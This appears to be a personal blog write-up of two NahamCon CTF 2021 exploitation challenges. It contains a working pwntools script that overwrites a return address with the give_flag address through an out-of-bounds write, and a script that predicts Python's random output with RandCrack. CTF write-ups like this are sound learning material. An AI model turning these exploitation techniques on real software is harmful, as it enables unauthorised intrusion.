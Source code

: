 ```yaml
---
title: "NahamCon CTF 2021"
header:
  teaser: /assets/images/2021-nahamcon/NahamCon-logo.png
excerpt_separator: "<!--more-->"
categories:
  - CTF
tags:
  - PWN
  - Ghidra
---
```


The [Hack South](https://hacksouth.africa/) CTF team was banging on all cylinders during this CTF and we placed 13th overall! I am extremely proud of this result. Only in its second year, it is easily one of the best amateur CTFs around. Ben Sadeghipour, John Hammond, and everyone else did amazing work to take CTFs to a new level.<!--more-->

I completed a number of challenges. These two were my favourites:

## The List (PWN)

The List was a ret2win challenge with a fun twist... The application allows up to 16 names to be added, read, removed, or changed. Analysis of the decompiled code in Ghidra showed a bug in bounds checking which allowed changing the 17th "name" after 16 names are added. There is no 17th name. This is an out of bounds write over the area where the return pointer is located.

The first step is to check architecture and presence of any security controls with `checksec`.
* No stack canary is present so we don't need to try to leak or work around it.
* This is not a position independent executable (No PIE), so function addresses will stay static. I.e. function addresses shown in GDB or Ghidra will be the same during runtime.
* NX is enabled, which limits us from executing custom shell code or changing existing code pages. We can still change some memory areas, including the stack.

```
➜  list checksec the_list
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The solution seems simple enough: Overwrite the return address with the address of `give_flag` to redirect code execution there when the current function completes. No PIE means the runtime function address is known.

My exploit solution:

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'DEBUG'

def add_user(t, name):
    t.recvuntil(b'> ')
    t.sendline(b'2')
    t.recvuntil(b'name: ')
    t.sendline(name)

def change_name(t, index, name):
    t.recvuntil(b'> ')
    t.sendline(b'4')
    t.recvuntil(b'change? ')
    t.sendline(index)
    t.recvuntil(b'name? ')
    t.sendline(name)

def do_exit(t):
    t.recvuntil(b'> ')
    t.sendline(b'5')

elf = ELF('./the_list')

# debugging
#gdb_cmd = ['b *change_uname', 'c']
#t = gdb.debug(elf.file.name, '\n'.join(gdb_cmd))

# local
# t = process(elf.file.name)

t = remote('challenge.nahamcon.com', 31980)

t.recvuntil(b'name: ')
t.sendline(b'BBBB')

for i in range(16):
    add_user(t, b'AAAA')

buf = b'A' * 72      # filler
buf += p64(0x401369) # addess of the give_flag function

change_name(t, b'17', buf)
do_exit(t)

t.interactive()
```

## Dice Roll (PWN)

Dice Roll was a Python PRNG challenge where I needed to "guess" the next value of `getrandbits`. The RandCrack Python package replicates state of the generator after receiving enough sequential samples. Once the internal state is the same, it provides the next values that will be generated by the generator.

My code solution:

```python
#!/usr/bin/env python3
from pwn import *
from randcrack import RandCrack

context.log_level = 'DEBUG'

rc = RandCrack()
t = remote('challenge.nahamcon.com', 31784)
#t = remote('127.0.0.1', 1337)

t.recvuntil(b'> ')
t.sendline(b'1')

while not rc.state:
    t.recvuntil(b'> ')
    t.sendline(b'2')
    val = t.recvuntil(b'\n\n')
    num = int(val.split(b'\n')[1])
    rc.submit(num)

guess = rc.predict_getrandbits(32)
t.recvuntil(b'> ')
t.sendline(b'3')
t.recvuntil(b'> ')
t.sendline(str(guess))

t.interactive()
```